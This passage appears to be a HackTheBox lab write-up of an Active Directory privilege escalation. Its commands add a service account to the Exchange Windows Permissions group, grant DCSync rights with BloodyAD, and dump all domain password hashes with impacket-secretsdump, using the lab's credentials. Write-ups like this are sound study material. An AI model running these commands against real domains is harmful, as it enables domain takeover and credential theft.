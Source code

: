 Given the information we've gleaned, the gameplan to get to admin is:

1. Add svc-alfresco to exchange windows permissions group (GenericAll permission)
2. Abuse WriteDACL permission to get control of the domain.
3. Dump the SAM registry and get the hashes for all the users of the domain.

I started by adding the svc-alfresco account to the Exchange Windows Permissions group with the [net](https://linux.die.net/man/8/net) tool.

```bash
## Add Mem

net rpc group addmem "EXCHANGE WINDOWS PERMISSIONS" "SVC-ALFRESCO" -U "HTB.LOCAL"/"SVC-ALFRESCO"%"s3rvice" -S "10.10.10.161"

## Check Mems

net rpc group members "EXCHANGE WINDOWS PERMISSIONS" -U "HTB.LOCAL"/"SVC-ALFRESCO"%"s3rvice" -S "10.10.10.161"
```

![](Assets/Pasted%20image%2020250722161113.png)

I tried to use Impacket-DACLEdit to get DCSync Permissions, but I kept getting "host unreachable" no matter what I tried so I switched things up to BloodyAD.

```bash
bloodyAD --host "10.10.10.161" -d "HTB.LOCAL" -u "svc-alfresco" -p "s3rvice" add dcsync "exchange windows permissions" "svc-alfresco"
```

![](Assets/Pasted%20image%2020250722163144.png)

Now that my account was able to DCSync, I used secretsdump to dump all the hashes out of the SAM (Security Account Manager) registry.

```bash
impacket-secretsdump 'htb.local'/'svc-alfresco':'s3rvice'@'10.10.10.161'
```

![](Assets/Pasted%20image%2020250722163407.png)
